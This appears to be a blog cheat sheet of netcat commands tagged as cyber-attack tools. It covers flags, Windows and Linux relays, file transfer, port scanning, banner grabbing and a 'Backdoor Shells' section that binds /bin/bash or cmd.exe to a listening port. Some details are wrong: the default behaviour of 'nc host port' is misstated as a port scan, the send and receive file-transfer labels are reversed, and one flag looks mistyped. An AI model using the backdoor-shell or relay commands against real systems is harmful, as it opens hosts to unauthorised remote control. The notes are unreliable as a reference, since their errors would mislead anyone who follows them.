 ```yaml
---
title: Meow's Testing Tools - netcat
date: 2019-09-17 11:11:11 -0400
categories: [CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


# netcat

[toc]

---

# Netcat Fundamentals

```bash
nc [options] [host] [port]
# by default this will execute a port scan

nc -l [host] [port]
# initiates a listener on the given port

Netcat Command Flags
nc -4 
# use IPv4 only

nc -6 
# use IPv6

nc -u 
# use UDP instead of TCP

nc -k -l 
# continue listening after disconnection

nc -n 
# skip DNS lookups

nc -v 
# provide verbose output
```

### Netcat Relays on Windows

```bash
nc [host] [port] > relay.bat
# open a relay connection

nc -l -p [port] -e relay.bat
# connect to relay
```

### Netcat Relays on Linux
```
nc -l -p [port] 0 (less than) backpipe (pipe) nc [client IP] [port] (pipe) tee backpipe
```

### Netcat File Transfer

```bash
nc [host] [port] (greater than) file_name.out
# send a file

nc [host] [port] (less than) file_name.in 
# receive a file
```


### Netcat Port Scanner

```bash
nc -zv site.com 80
# scan a single port

nc -zv hostname.com 80 84 
# scan a set of individual ports

nc -zv site.com 80-84 
# scan a range of ports
```


### Netcat Banners

```bash
echo “” | nc -zv -wl [host] [port range] 
# obtain the TCP banners for a range of ports
```

### Netcat Backdoor Shells

```bash
nc -l -p [port] -e /bin/bash 
# run a shell on Linux

nc -l -p [port] -e cmd.exe 
# run a shell on Netcat for Windows
```








ref:
- [nmap](https://nmap.org/bennieston-tutorial/)